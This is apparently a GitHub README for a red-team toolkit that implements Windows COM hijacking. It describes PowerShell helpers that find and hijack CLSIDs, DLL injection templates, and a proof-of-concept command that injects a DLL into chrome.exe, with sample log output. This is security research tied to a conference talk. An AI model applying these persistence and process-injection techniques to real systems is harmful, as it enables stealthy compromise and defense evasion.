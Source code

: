 # acCOMplice

_Your COM hijacking accomplice_

Author: David Tulis ([@kafkaesqu3](https://twitter.com/kafkaesqu3))

## Overview

This repository contains code samples and proofs-of-concept for exploring COM
hijacking. COM hijacking is a Windows post exploitation technique, which can be
used for persistence or defense evasion. 

For more information on the COM interface, how to find hijacks, and techniques
for abusing a hijack, please refer to the presentation given at Derbycon 9,
_COM Hijacking Techniques_.

* Slides: <https://www.slideshare.net/DavidTulis1/com-hijacking-techniques-derbycon-2019>
* Presentation: <https://www.youtube.com/watch?v=pH14BvUiTLY>

## Project

* **COMHijackToolkit:** Powershell script containing helper scripts for dealing
                        with COM hijacks. Quick highlights: 
    * `Extract-HijackableKeysFromProcmonCSV`: parses a Procmon CSV export for
                                              hijackable objects
    * `Hijack-CLSID`: Hijacks a CLSID with a given DLL
    * `Hijack-MultipleKeys`: Hijacks multiple CLSDs concurrently with a given
                             DLL. This is useful for finding CLSIDs which are
                             activated often
* **InjectionTemplates:** 3 templates demoed at Derbycon presentation
    * Create a new process with `CreateProcess`
    * Inject into an existing process with `CreateRemoteThread`
    * Measure thread lifetimes in current process using `CreateThread`
* **COMinject:** Proof of concept demonstrating how COM hijacks can be used to accomplish process injections/migrations
* **masterkeys.csv:** Some keys for you to play with
* **procmon-filters:** Filters for Procmon to aid in hijack identification and
               exploitation

## Examples

### COMHijackToolkit

Powershell script containing helper scripts for dealing with COM hijacks. Highlights:

Show all COM object CLSIDs and the location of the implementation on disk
```
$keys = Get-CLSIDRegistryKeys -RegHive HKCR
$results = $keys | % {$guid = Extract-GUIDFromText $_; Map-GUIDToDLL -guid $guid 2> $null }
```

Conduct a survey of CLSIDs on a system
```
$HKCR_keys = Get-CLSIDRegistryKeys -RegHive HKCR
$HKCR_keys | where-object {$_ -like "*inprocserver"} | Measure-Object
$HKCR_keys | where-object {$_ -like "*inprocserver32"} | Measure-Object
$HKCR_keys | where-object {$_ -like "*localserver"} | Measure-Object
$HKCR_keys | where-object {$_ -like "*localserver32"} | Measure-Object

$HKLM_keys = Get-CLSIDRegistryKeys -RegHive HKLM
$HKLM_keys | Measure-Object
$HKCU_keys = Get-CLSIDRegistryKeys -RegHive HKCU
$HKCU_keys | Measure-Object
```
```
explorer:{69486DD6-C19F-42e8-B508-A53F9F8E67B8}
explorer:{9E175B6D-F52A-11D8-B9A5-505054503030}
explorer:{30CC9D06-7E62-4966-9777-BC3442E788BD}
explorer:{3eef301f-b596-4c0b-bd92-013beafce793}
explorer:{682159d9-c321-47ca-b3f1-30e36b2ec8b9}
explorer:{6B3B8D23-FA8D-40B9-8DBD-B950333E2C52}
explorer:{9aa46009-3ce0-458a-a354-715610a075e6}
explorer:{9BA05972-F6A8-11CF-A442-00A0C90A8F39}
explorer:{AC36A05C-FB95-4C7A-868C-A43CC8D2D926}
explorer:{B52D54BB-4818-4EB9-AA80-F9EACD371DF8}
explorer:{c2f03a33-21f5-47fa-b4bb-156362a2f239}
```

Find CLSIDs referencing a DLL which does not exist on the system: 
```
Find-MissingLibraries
```

### InjectionTemplates

3 proof-of-concept templates for COM hijack abuse, as demonstrated in the
Derbycon 9 presentation: 

* `HijackDLL-Process`: Create a new process when DLL is loaded
* `HijackDLL-CreateRemoteThread`: Perform thread injection technique using
                                  `CreateRemoteThread` API call when DLL is
                                  loaded
* `HijackDLL-Threads`: Useful for measuring lifetime of a threads started in the
                       DLL after a hijack

### COMinject

Proof of concept to show how COM hijacking can be used for process injections: 

* _COMInjectDotNet:_ Proof of concept client which will inject a DLL into a
                     supported process via COM hijack
* _COMInjectTarget:_ The target library to inject into a process

The first step is to perform the hijack:

```
COMInjectDotNet.exe chrome.exe C:\COM\COMInjectTarget.dll
```

The hijack won't trigger immediately, and may require the application to be
started (if not currently running), or some basic application actions. There are
probably some better CLSIDs that trigger more often, but these are good enough. 

The `COMInjectTarget.dll` will log its progress to a log file in `C:\COM`. This
appears more stable than using something like `AllocConsole` from within another
process and just printing to the console.

The following shows the injected DLL running from within the main `chrome.exe`
process:

```
[*] chrome pid=9104 ppid=4900 (count 0)
[*] chrome pid=9104 ppid=4900 (count 1)
[*] chrome pid=9104 ppid=4900 (count 2)
[*] chrome pid=9104 ppid=4900 (count 3)
[*] chrome pid=9104 ppid=4900 (count 4)
[*] chrome pid=9104 ppid=4900 (count 5)
``` 

The currently supported processes are:

* explorer (default)
* chrome
* excel
* word
* outlook

## References and credits
To learn more about COM and COM hijacks: 

* Leo Loobeek ([@leoloobeek](https://twitter.com/leoloobeek)):
    * [COMProxy](https://github.com/leoloobeek/COMProxy/), which I borrowed code
      heavily from
    * [Proxying COM For Stable Hijacks](https://adapt-and-attack.com/2019/08/29/proxying-com-for-stable-hijacks/)
* Matt Nelson ([@enigma0x3](https://twitter.com/enigma0x3)):
    * [Userland Persistence with Scheduled Tasks and COM Handler Hijacking](https://enigma0x3.net/2016/05/25/userland-persistence-with-scheduled-tasks-and-com-handler-hijacking/)
* The [@bohops](https://twitter.com/bohops) series on COM hijacks:
    * [Abusing the COM Registry Structure: CLSID, LocalServer32, & InprocServer32](https://bohops.com/2018/06/28/abusing-com-registry-structure-clsid-localserver32-inprocserver32/)
    * [Abusing the COM Registry Structure (Part 2): Hijacking & Loading Techniques](https://bohops.com/2018/08/18/abusing-the-com-registry-structure-part-2-loading-techniques-for-evasion-and-persistence/)
* James Forshaw ([@tiraniddo](https://twitter.com/tiraniddo)):
    * [Having Fun with COM](https://vimeo.com/showcase/5637718/video/335942580)
    * [COM in 60 seconds](https://www.youtube.com/watch?v=dfMuzAZRGm4)
    * [OleViewDotNet](https://github.com/tyranid/oleviewdotnet)
* Casey Smith ([@subtee](https://twitter.com/subtee)) + [@enimga0x3](https://twitter.com/enimga0x3):
    * [Windows Operating System Archaeology](https://www.youtube.com/watch?v=3gz1QmiMhss) ([slides](https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology), [code](https://github.com/jeperez/windows-operating-system-archaeology))


